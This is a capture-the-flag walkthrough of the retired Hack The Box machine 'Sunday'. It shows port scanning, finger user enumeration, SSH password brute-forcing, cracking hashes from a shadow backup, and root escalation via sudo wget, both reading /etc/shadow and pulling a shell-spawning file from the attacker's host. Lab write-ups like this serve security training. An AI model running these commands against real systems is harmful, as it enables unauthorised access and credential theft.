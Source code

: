 # Sunday

This is the write-up for the box Sunday that got retired at the 29th September 2018.
My IP address was 10.10.14.16 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.76    sunday.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/sunday.nmap 10.10.10.76
```

```markdown
PORT      STATE    SERVICE         VERSION
79/tcp    open     finger          Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open     rpcbind         2-4 (RPC #100000)
(...)
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

Scanning all ports:
```markdown
nmap -p- 10.10.10.76 --max-retries 0 -Pn
```

```markdown
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
34445/tcp open  unknown
43278/tcp open  unknown
```

Enumerating services on the three unknown ports:
```markdown
nmap -p 22022,34445,43278 -sC -sV 10.10.10.76
```

```markdown
PORT      STATE SERVICE VERSION
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey:
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
34445/tcp open  unknown
43278/tcp open  unknown
```

## Checking Solaris fingerd (Port 79)

The Solaris fingerd process is open on port 79 and can be enumerated with either **Metasploit** or [this finger-enum-script on GitHub](https://github.com/pentestmonkey/finger-user-enum).

Metasploit:
```markdown
use auxiliary/scanner/finger/finger_users

set RHOSTS 10.10.10.76

exploit
```

Perl script:
```markdown
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76 | less -S
```

Both ways result in enumerating active usernames on the box.
The specified username list also finds two users called _sammy_ and _sunny_ that were logged in:
```markdown
root@10.10.10.76:   root     Super-User pts/3   <Apr 24, 2018> sunday
sammy@10.10.10.76:  sammy               pts/2
sunny@10.10.10.76:  sunny               pts/2
```

Lets try to brute-force the password of _sunny_ and login via SSH.
The tool **Hydra** does not work because the box uses an old Key-Exchange algorithm, so instead I will use **Patator**:
```markdown
patator ssh_login host=10.10.10.76 port=22022 user=sunny password=FILE 0=/usr/share/seclists/Passwords/probable-v2-top1575.txt persistent=0
```

After a while it finds a password for the user _sunny_:
> sunday

Login with credentials:
```markdown
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```

## Privilege Escalation

Lets see which root privileges this user has with `sudo`:
```markdown
sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

The binary only displays _"testing"_ and the output of the `id` command and nothing else.

When looking at the root (/) directory, there is a non-default folder called _backup_ with a file called _shadow.backup_.
This is a _shadow file_ with the password hash of the users on the box:
```markdown
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Lets try to crack the password of _sammy_ with **Hashcat**:
```markdown
hashcat -m 7400 sunday.hash /usr/share/wordlists/rockyou.txt
```

After a while it cracks the password for the user:
> cooldude!

### Privilege Escalation to root

This user has the following root privileges with `sudo`:
```markdown
sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```

It is possible to read and execute local files with `wget`:
```markdown
sudo wget -i /etc/shadow
```

So we can create a file called _troll_, upload it on the box and execute it to get a shell as root. The file just executes `bash`.
Start a web server with that file and upload it with `wget`:
```markdown
sudo wget 10.10.14.16:8000 -O /root/troll
```

Now this has to be executed with the root privileges of _sunny_:
```markdown
sudo /root/troll
```

This has to be done fast, as there is a script that rewrites _/root/troll_ every 5 seconds.
After uploading the new _/root/troll_ file and then executing it with _sunny_, it spawn a shell as root!
